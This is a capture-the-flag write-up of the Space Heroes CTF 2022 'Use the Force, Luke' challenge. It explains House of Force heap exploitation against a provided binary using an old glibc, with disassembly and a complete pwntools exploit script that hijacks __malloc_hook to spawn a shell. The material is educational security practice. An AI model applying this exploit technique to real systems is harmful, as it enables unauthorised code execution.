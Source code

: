 ```yaml
---
title: "Pwn: Use the Force, ..."
date: 2025-01-15
draft: false
summary: Space Heroes CTF 2022. House of Force heap exploitation.
tags:
  - heap
  - house-of-force
category: Pwn
---
```

###### Challenge
We are provided a zip file which contains the binary *force* and its GLIBC. The binary seems to be using `GLIBC 2.28 No TCache`. Let's analyze the binary to get more information.

`force: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./.glibc/glibc_2.28_no-tcache/ld.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c50b5c7f0a7dc45dd3409c7fbf1350c534c52662, not stripped`

```
┌──(chronopad㉿VincentXPS)-[~/Documents/ctf2025/SpaceHeroesCTF_2022/usetheforceluke]
└─$ checksec force
[*] '/home/chronopad/Documents/ctf2025/SpaceHeroesCTF_2022/usetheforceluke/force'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./.glibc/glibc_2.28_no-tcache'
    Stripped:   No
```

We are given a custom GLIBC file, which means that there's a specific exploit that we can only perform in this specific GLIBC version, usually a part of heap exploitation techniques.

###### Solution
If we run the binary, we are given two addresses leak. One address is system and the other seems to be the address of the heap. We are then given two choices, which is to "Reach out with the force" or to "Surrender". Surrendering will exit the program while the first option will trigger some questions. To understand what they do, we can try disassembling the binary. Here is a part of `main()` disassembled with **radare2**.

```
│     │╎│   0x004009a2      488d3dbc0100.  lea rdi, str.How_many_midi_chlorians_:_ ; 0x400b65 ; "How many midi-chlorians?: "
│     │╎│   0x004009a9      b800000000     mov eax, 0
│     │╎│   0x004009ae      e8bdfdffff     call sym.imp.printf         ; int printf(const char *format)
│     │╎│   0x004009b3      488d45e0       lea rax, [var_20h]
│     │╎│   0x004009b7      4889c6         mov rsi, rax
│     │╎│   0x004009ba      488d3dbf0100.  lea rdi, str._llu           ; 0x400b80 ; "%llu"
│     │╎│   0x004009c1      b800000000     mov eax, 0
│     │╎│   0x004009c6      e8e5fdffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
│     │╎│   0x004009cb      488d3db30100.  lea rdi, str.What_do_you_feel_:_ ; 0x400b85 ; "What do you feel?: "
│     │╎│   0x004009d2      b800000000     mov eax, 0
│     │╎│   0x004009d7      e894fdffff     call sym.imp.printf         ; int printf(const char *format)
│     │╎│   0x004009dc      488b45e0       mov rax, qword [var_20h]
│     │╎│   0x004009e0      4889c7         mov rdi, rax
│     │╎│   0x004009e3      e8b8fdffff     call sym.imp.malloc         ;  void *malloc(size_t size)
```

We can see that the program calls `malloc()`, using the amount of midi-chlorians as the chunk size. Anything we input to the "What do you feel?" question will then be written to the heap memory chunk.

Based on the challenge name, we can pretty much guess that this challenge is a House of Force heap exploitation challenge. This exploitation techniques works by writing more data to the heap more than the chunk size that we requested, which overwrites the size field of the top chunk of the heap, allowing us to do arbitrary write and even code execution.

![Image Description](/images/Pasted%20image%2020250115205717.png)

Because this is just a standard / base-case of the House of Force technique, I'll cut the explanation and go straight for the exploitation. If you are interested about the exploitation, feel free to read the resource below:
- https://mohamed-fakroud.gitbook.io/red-teamings-dojo/binary-exploitation/heap-house-of-force

```
# exploit.py
from pwn import *

elf = context.binary = ELF("./force")
libc = ELF("./.glibc/glibc_2.28_no-tcache/libc-2.28.so")
io = process(elf.path)
context.log_level = 'debug'

def malloc(size, data):
	io.sendlineafter(b"(2) Surrender\n", b"1")
	io.sendlineafter(b"How many midi-chlorians?: ", str(size).encode())
	io.sendlineafter(b"What do you feel?: ", data)

io.recvuntil(b"You feel a system at ")
libc.address = int(io.recvline().decode(), 16) - libc.sym["system"]
io.recvuntil(b"You feel something else at ")
heap_addr = int(io.recvline().decode(), 16)

print(f"Libc address: {hex(libc.address)}")

malloc(24, b"/bin/sh\x00" + b"A"*16 + p64(0xffffffffffffffff))
malloc((libc.sym["__malloc_hook"] - 0x20) - (heap_addr + 0x20), b"A")
malloc(24, p64(libc.sym["system"]))
# malloc(str(heap_addr + 0x10).encode(), b"A")
malloc(next(libc.search(b"/bin/sh")), b"") # Honestly more reliable

io.interactive()
```

Link, resources:
- https://github.com/knittingirl/CTF-Writeups/tree/main/pwn_challs/space_heroes_22/Use%20the%20Force%2C%20Luke
- https://mohamed-fakroud.gitbook.io/red-teamings-dojo/binary-exploitation/heap-house-of-force
